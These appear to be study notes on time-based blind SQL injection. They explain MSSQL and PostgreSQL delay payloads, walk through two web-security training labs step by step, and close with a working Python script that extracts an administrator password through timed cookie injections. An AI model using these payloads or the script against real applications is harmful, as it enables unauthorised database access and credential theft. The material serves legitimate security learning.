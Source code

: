 # Blind SQLi triggering time delays and information retrieval
---
- In the preceding example, suppose that the application now catches database errors and handles them gracefully. 
- Triggering a database error when the injected SQL query is executed no longer causes any difference in the application's response. 
- So the preceding technique of inducing conditional errors will not work.

- In this situation, _it is_ often _possible_ to exploit the blind SQL injection vulnerability by _triggering time delays conditionally_, depending on an injected condition.
- Because SQL queries are generally processed synchronously by the application, delaying the execution of a SQL query will also delay the HTTP response. 
- This allows us to infer the truth of the injected condition based on the time taken before the HTTP response is received.

The techniques for triggering a time delay are highly specific to the type of database being used. 
On _Microsoft SQL Server_, input like the following can be used to test a condition and trigger a delay depending on whether the expression is true:
```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'-- 
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```
The _first_ of these inputs will not trigger a delay, because the condition `1=2` is _false_. 
The _second_ input will trigger a delay of 10 seconds, because the condition `1=1` is _true_.

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:
```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

# Lab: Blind SQL injection with time delays
---
1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie.
2. Modify the `TrackingId` cookie, changing it to:
    - `TrackingId=x'||pg_sleep(10)--`
3. Submit the request and observe that the application takes 10 seconds to respond.
>[!note]
> The payload can be (_PostgreSQL_)
> 	- `x'||pg_sleep(10)--`
> 	- `x'||(SELECT 1 FROM pg_sleep(10))--`
> 	- or/get more here [PayloadsAllTheThings - SQLi/PostgreSQL/Blind-Time](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-time-based).

# Lab: Blind SQL injection with time delays and information retrieval
---
1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie.
2. Modify the `TrackingId` cookie, changing it to:
    - `TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`
    - Verify that the application takes 10 seconds to respond.
3. Now change it to:
    - `TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`
    - Verify that the application responds immediately with no time delay. 
    - This demonstrates how you can test a single boolean condition and infer the result.
4. Now change it to:
    - `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
    - Verify that the condition is true, confirming that there is a user called `administrator`.
5. The next step is to determine how many characters are in the password of the `administrator` user. 
    - To do this, change the value to:
    - `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
    - This condition should be true, confirming that the password is greater than 1 character in length.
6. Send a series of follow-up values to test different password lengths. Send:
   - `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
    - Then send:
    - `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>3)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
    - And so on. 
    - You can do this manually using [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater), since the length is likely to be short. 
    - When the condition stops being true (_i.e. when the application responds immediately without a time delay_), you have determined the length of the password, which is in fact 20 characters long.
7.  After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use [Burp Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder). Send the request you are working on to Burp Intruder, using the context menu.
8.  In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.
9.  In the Positions tab, change the value of the cookie to:
    - `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
    - This uses the `SUBSTRING()` function to extract a single character from the password, and test it against a specific value. 
    - Our attack will cycle through each position and possible value, testing each one in turn.
10.  Place payload position markers around the `a` character in the cookie value. To do this, select just the `a`, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers):
    - `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
11.  To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lower case alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under "Payload settings" add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.
12.  To be able to tell when the correct character was submitted, you'll need to monitor the time taken for the application to respond to each request. For this process to be as reliable as possible, you need to configure the Intruder attack to issue requests in a single thread. To do this, go to the "Resource pool" tab and add the attack to a resource pool with the "Maximum concurrent requests" set to `1`.
13.  Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.
14.  Burp Intruder monitors the time taken for the application's response to be received, but by default it does not show this information. To see it, go to the "Columns" menu, and check the box for "Response received".
15.  Review the attack results to find the value of the character at the first position. You should see a column in the results called "Response received". This will generally contain a small number, representing the number of milliseconds the application took to respond. One of the rows should have a larger number in this column, in the region of 10,000 milliseconds. The payload showing for that row is the value of the character at the first position.
16.  Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2. You should then see the following as the cookie value:
    - `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
17.  Launch the modified attack, review the results, and note the character at the second offset.
18.  Continue this process testing offset 3, 4, and so on, until you have the whole password.
19.  In the browser, click "My account" to open the login page. Use the password to log in as the `administrator` user.

```python
#!/usr/bin/env python3
# Blind SQL injection with time delays and information retrieval (PostgreSQL)
import requests
import string
import time
import sys

# Debugging
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
p = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}

def get_length(url, cookie, session):
    for i in range(1,100):
        # '||(SELECT CASE WHEN LENGTH(password)=20 THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--
        sqli = f"'||(SELECT CASE WHEN LENGTH(password)={i} THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--"
        c = {'TrackingId':f'{cookie}{sqli}', 'session':f'{session}'}
        s_time = time.time()
        requests.get(url, cookies=c, verify=False, proxies=p)
        e_time = time.time() - s_time
        if e_time > 5:
            return i
        i = i+1
    return False

def get_password(url, cookie, session, passwd_length):
    admin_passwd = list()
    for i in range(1,passwd_length+1):
        for char in string.printable:
            # '||(SELECT CASE WHEN SUBSTRING(password,1,1)='a' THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--
            sqli = f"'||(SELECT CASE WHEN SUBSTRING(password,{i},1)='{char}' THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--"
            c = {'TrackingId':f'{cookie}{sqli}', 'session':f'{session}'}
            s_time = time.time()
            requests.get(url, cookies=c, verify=False, proxies=p)
            e_time = time.time() - s_time
            if e_time > 5:
                admin_passwd.append(char)
                break
            x = ''.join(admin_passwd) + char
            sys.stdout.write('\r' + x)
            sys.stdout.flush()

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        cookie = sys.argv[2].strip()
        session = sys.argv[3].strip()
    except IndexError:
        print("[-] Usage: {} <url> <cookie_value> <session_value>".format(sys.argv[0]))
        print("[-] Example: {} http://example.com abcdef123 abcdef123".format(sys.argv[0]))
        sys.exit(1)

    print("[-] Finding the password length...")
    passwd_length = get_length(url, cookie, session)
    if passwd_length:
        print("[-] Found the password length... [{}]".format(passwd_length))
        print("[-] Retrieving administrator password...")
        print("[!] Tip... at the end string must replace with next character...")
        get_password(url, cookie, session, passwd_length)
    else:
        print("[-] Can't find the password length!")
```